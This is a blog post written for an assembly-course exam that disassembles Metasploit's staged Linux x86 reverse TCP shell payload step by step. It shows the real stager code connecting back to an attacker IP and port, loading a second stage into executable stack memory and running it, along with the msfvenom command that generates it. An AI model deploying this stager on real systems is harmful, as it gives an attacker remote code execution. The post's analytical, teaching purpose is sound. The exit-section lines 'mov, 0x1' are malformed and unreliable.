 ```yaml
---
title: SLAE Exam 5 Shellcode Analysis - Part 3
category: Security
tags: [slae, shell, assembly, programming]
---
```


Now, we're cooking! We previously looked at two MSF payloads, read_file and the staged version of a bind_tcp shell. Now, we will look at one of the most commonly used MSF payloads out there: the staged reverse tcp shell. I'm assuming it will be very similar to the staged bind tcp shell, but who knows. There's only one way to find out!

## Problem Statement

* Take up at least 3 shellcode samples created using Msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

I've already hyped up the fact that we'll be taking a look at msfvenom's `linux/x86/shell/reverse_tcp` payload. If you missed [part one]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-1 %}) or [part two]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-2 %}), I highly recommend going back and reading that. Once you're all caught up, rejoin us below!

#### Generating the Files

We'll quickly get started by generating our raw and disassembled files.

```bash
root@kali:~/courses/slae/exam/assignment5# msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux > staged_reverse_shell.raw

root@kali:~/courses/slae/exam/assignment5# ndisasm -b 32 staged_reverse_shell.raw > staged_reverse_shell_analyzed.nasm
```


## Analysis

It's time to dig through the assembly. My guess was right, in that this is very similar to the bind tcp shell we looked at in [part two]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-2 %}), and I'll prove it to you right... now!


#### Make the Socket

```
00000000      xor ebx,ebx             ; Clear EBX
00000002      mul ebx                 ; Clear EAX, EDX
00000004      push ebx                ; [0x0]
00000005      inc ebx                 ; set ebx to 1 (SYS_SOCKET)
00000006      push ebx                ; [0x1, 0x0]
00000007      push byte +0x2          ; [0x2, 0x1, 0x0]
00000009      mov al,0x66             ; SYSCALL(0x66) // man 2 socketcall
0000000B      mov ecx,esp             ; mov *args into ecx
0000000D      int 0x80                ; socketcall(1, *esp) -> socket(2, 1, 0) -> socket(AF_INET, SOCK_STREAM, 0) (see Assignment 1 for details)
```

This is pretty standard. We are just creating a TCP socket for use. If you have trouble understanding the comments, review parts one and two of this series. If you still have trouble, please leave a comment below!


#### Connect to Attacker

```
0000000F      test eax,eax            ; Ensure EAX is not negative
00000011      js 0x57                 ; If EAX < 0, exit
00000013      xchg eax,edi            ; Move socket fd (SOCKFD) to EDI
00000014      pop ebx                 ; Put 0x2 into ebx // [0x1, 0x0]
00000015      push dword 0x81caa8c0   ; [0x81caa8c0, 0x1, 0x0] // IP Address (192.168.202.129)
0000001A      push dword 0x5c110002   ; [0x5c110002, 0x81caa8c0, 0x1, 0x0] // sin_port and sin_family (4444, 0x0002)
0000001F      mov ecx,esp             ; ecx -> [0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000021      push byte +0x66         ; prepare for syscall
00000023      pop eax                 ; SYSCALL(0x66) // man 2 socketcall
00000024      push eax                ; [0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000025      push ecx                ; [*(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000026      push edi                ; [SOCKFD, *(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000027      mov ecx,esp             ; ecx -> [SOCKFD, *(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000029      inc ebx                 ; EBX = 0x3 (SYS_CONNECT)
0000002A      int 0x80                ; socketcall(3, [SOCKFD, *(0x5c110002, 0x81caa8c0, 0x1, 0x0)])
```

Here we tell our newly created socket to connect to our attacker's machine. In my case, I gave msfvenom no arguments, so it automatically used an RHOST value of my local IP *192.168.202.129*, and a port of *4444*. Good to know!


#### Mark Memory for Staged Shellcode

```
0000002C      test eax,eax            ; Check if return value was negative
0000002E      js 0x57                 ; If negative, jump to exit
00000030      mov dl,0x7              ; edx = 0x7
00000032      mov ecx,0x1000          ; ecx = 0x1000
00000037      mov ebx,esp             ; ebx = [SOCKFD, *(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000039      shr ebx,byte 0xc        ; align ebx to a page
0000003C      shl ebx,byte 0xc        ; by clearing last 12 bits of ebx
0000003F      mov al,0x7d             ; SYSCALL(125)
00000041      int 0x80                ; mprotect(ebx, 0x1000, 7) -> make 0x1000 bytes at the stack RWX
```

This is doing the same thing it did with the bind tcp shell. It marks a page of memory on our stack as RWX, so that we can place our staged payload there and run it.


#### Read Staged Shellcode into Memory

```
00000043      test eax,eax            ; Test for negative return code
00000045      js 0x57                 ; If negative, jump to exit
00000047      pop ebx                 ; EBX = SOCKFD // [*(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000048      mov ecx,esp             ; ECX -> [*(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
0000004A      cdq                     ; clear EDX (by extending sign bit of eax to edx)
0000004B      mov dh,0xc              ; EDX = 0xC00
0000004D      mov al,0x3              ; SYSCALL(0x3) // man 2 read
0000004F      int 0x80                ; read(SOCKFD, ECX (STACK), 0x00000C00)
```

Here, we receive our staged shellcode from the attacker's machine, and store it on the stack.


#### Jump to Staged Shellcode

```
00000051      test eax,eax            ; Test for negative return code
00000053      js 0x57                 ; If negative, jump to exit
00000055      jmp ecx                 ; If it wasn't, jump to ECX which contains our staged shellcode
```

Finally, as long as no errors have occurred, we are ready to pass execution to the stack, where our staged payload sits awaiting execution.


#### Exit Due to Failure

```
00000057      mov, 0x1                ; SYSCALL(0x1) // man 2 exit
0000005C      mov, 0x1                ; return code of 1 (error because staged shellcode didn't make it)
00000061      int 0x80                ; exit(1)
```

This section of code is mentioned throughout this payload. If at any point, a function returns a negative value in EAX, the payload will jump to this section, causing an exit with a return code of 1, indicating something went wrong.


## Wrapping Up

The `linux/x86/shell/reverse_tcp` payload was very similar to the bind_tcp payload as predicted. One of the key differences here was the fact that the reverse_tcp payload does a lot more to check for errors, which was interesting to see. In any case, I hope you learned as much as I did throughout this exercise, and I encourage you to walk through this process on a different payload. I'd love to hear about what you find or what payloads you choose to analyze! So leave a comment below, and until next time, happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
